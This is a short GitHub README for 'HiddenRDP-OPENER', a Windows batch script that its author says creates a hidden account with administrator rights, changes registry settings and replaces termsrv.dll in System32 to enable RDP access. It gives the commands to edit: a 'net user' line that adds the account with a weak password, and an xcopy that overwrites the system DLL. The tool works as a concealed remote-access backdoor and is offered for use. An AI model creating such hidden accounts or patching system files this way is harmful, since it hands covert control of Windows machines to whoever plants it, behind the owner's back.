 # HiddenRDP-OPENER
This script make any windows compatible with RDP connection 

<h2>Requirements :</h2>
Windows 7 , Windows 8 , Windows 10 / Not tested yet in Windows XP

<h2>How it works ?:</h2>
This script create a hidden profil ( Administrator privilege ) and change registry parametre to make windows compatible with RDP Connection.

<h2>Configuration:</h2>
You need to open RDPScript.bat <br />
And make this changes :<br />
<h3>net user hidden 123123 /ADD </h3><br />
hidden = name of your created account<br />
123123 = password of your account <br />
xcopy "termsrv.dll" "%windir%\System32\" /s /h /q <br />
change termsrv.dll with your full path , ex : C:\Users\comix\Downloads\termsrv.dll <br />

<h2>License</h2>

Copyright © 2015 Soufiyan Ak (Comix)
